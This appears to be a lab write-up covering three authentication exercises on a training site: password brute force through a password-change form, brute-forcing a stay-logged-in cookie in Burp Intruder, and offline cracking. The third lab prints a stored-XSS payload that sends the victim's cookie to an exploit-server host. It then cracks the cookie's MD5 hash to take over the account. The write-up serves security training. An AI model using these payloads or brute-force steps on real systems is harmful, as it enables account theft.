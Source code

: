 **Other mechanisms include** -
**1. Reset password functionality** :- 

a) forgot password

b) change password

**2. Remember me functionality.**

**3. Lock out mechanism.**

**1st- Lab Write-Up: Password brute-force via password change**

**Step 1: Initial Setup**

Configure Burp Suite and ensure your browser is properly set up to route traffic through the proxy.

Access the lab and log in using the provided credentials.

**Step 2: Observing the Password Change Functionality**

Navigate to the "Change Password" feature on the application.

Note that the form requires three fields:

Current Password

New Password

Confirm New Password

Perform the following observations:

When you submit an incorrect Current Password with matching New Password and Confirm New Password, the account gets blocked after multiple attempts.

When you provide the correct Current Password but different values for New Password and Confirm New Password, the application throws an error message:
"New passwords don’t match."

**Step 3: Exploiting the Functionality**

Recognize that the error message for mismatched new passwords can help identify the correct Current Password.

Use Burp Suite to capture the POST request for changing the password:

Send the request to the Intruder tool.

Modify the username parameter to target the victim username carlos.

Set the current-password parameter as the payload position.

**Step 4: Configuring the Intruder Attack**

In Payloads, upload a wordlist of potential passwords for the current-password parameter.

In Grep – Match settings:

Add the string "New passwords don’t match" to identify successful guesses.

Start the attack.

**Step 5: Analyzing the Results**

Observe the responses in the attack results. Under the "New passwords don’t match" column, look for the payload that triggers this message.
Identify the correct password for carlos (in this case, 123456).

**Step 6: Logging In**

Use the identified password (123456) to log in as carlos.

Successfully solve the lab!

Key Takeaways

This attack leverages a logic flaw in the password change functionality, allowing brute force attempts without account lockout.

The error messages provide unintended feedback, aiding in identifying valid credentials.

Always validate and handle error messages securely to prevent information disclosure.

**2nd - Lab: Brute-forcing a stay-logged-in cookie**

Your credentials: wiener:peter

Victim's username: carlos

**1. Log in to your account**

Enable the "Stay logged in" option.

Notice that a stay-logged-in cookie is created.

**2.Inspect the cookie**

Use Burp's Inspector panel to view the cookie.

Decode it (Base64) and observe its format: username:md5HashOfPassword.

**3.Verify the hash**

Hash your password using MD5.

Check if the hash matches the second part of the decoded cookie.

Confirm that the cookie format is base64(username + ':' + md5HashOfPassword).

**4.Log out and send the request to Burp Intruder**

Log out of your account.

Find the most recent GET /my-account?id=wiener request in Burp.

Highlight the stay-logged-in cookie and send the request to Intruder.

**5.Set up Burp Intruder**

Ensure the stay-logged-in cookie is set as the payload position.

Add your own password as a payload (for testing).

Add these Payload Processing Rules:
Hash: MD5

Add Prefix: wiener:

Encode: Base64
![Screenshot from 2024-11-29 17-21-27](https://github.com/user-attachments/assets/21f087e9-4976-4697-8646-86e740e6555e)

**6.Add a response check**

In Intruder, add a grep match rule to flag responses containing the string Update email.

**7.Run the attack**

Start the attack and confirm that a valid payload allows access to your account.
![Screenshot from 2024-11-29 17-21-27](https://github.com/user-attachments/assets/bb0e007a-da43-403b-bcad-61a2a7a01152)

**8.Adjust for Carlos's account**

Replace your password with a list of candidate passwords.

Change the id parameter in the request URL from wiener to carlos.

Update the Add Prefix rule to use carlos: instead of wiener:.

**9.Run the attack again**

Start the attack.

Look for the response containing the Update email button.

The payload in this response is the valid stay-logged-in cookie for Carlos's account.

**Lab Solved**
![Screenshot from 2024-11-29 17-20-38](https://github.com/user-attachments/assets/69ee33c1-e01a-49f9-8611-5810db97b232)

Use the payload to access Carlos's account.

**3rd Lab**

**Lab: Offline password cracking**

Your credentials: wiener:peter

Victim's username: carlos

**1.Investigate the Stay logged in functionality**

Log in to your account with Burp running.

Notice that the stay-logged-in cookie is Base64 encoded.

Go to Proxy > HTTP history in Burp, find the response to your login request, and highlight the stay-logged-in cookie.

Observe that the cookie is constructed as:
username + ':' + md5HashOfPassword.

**2.Identify the XSS vulnerability**

Notice that the comment functionality on the blog is vulnerable to stored XSS.

**3.Get your exploit server URL**

Go to the exploit server and note down the exploit server URL.

**4.Post the XSS payload**

Go to one of the blog pages and post the following comment:
html

Copy code

**"<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>"**

Replace YOUR-EXPLOIT-SERVER-ID with your actual exploit server ID.

**5.Capture the victim's cookie**

Open the access log on your exploit server.

Look for a GET request from the victim that includes their stay-logged-in cookie.

![Screenshot from 2024-11-29 17-53-18](https://github.com/user-attachments/assets/82e485ed-08a6-45b3-9fa6-5b846a3b3075)

**6.Decode the cookie**

Copy the victim's stay-logged-in cookie and decode it using Burp Decoder.

The decoded value will be in the format:
username:md5HashOfPassword

Example: carlos:26323c16d5f4dabff3bb136f2460a943.

**7.Find the victim's password**

Copy the MD5 hash (second part of the cookie) and search for it in a search engine.
The password for the hash should be revealed. Example: onceuponatime.

**8.Log in to the victim's account**

Use the victim's username (carlos) and the password you found to log in to their account.

**9.Delete the victim's account**

Go to the "My account" page in the victim's account.
Delete their account to solve the lab.
![Screenshot from 2024-11-29 17-52-24](https://github.com/user-attachments/assets/a8838cd5-1eac-4700-a566-50fff9842d55)

![Screenshot from 2024-11-29 17-52-53](https://github.com/user-attachments/assets/81ceb249-71a6-4bf4-a201-cf02175b1554)

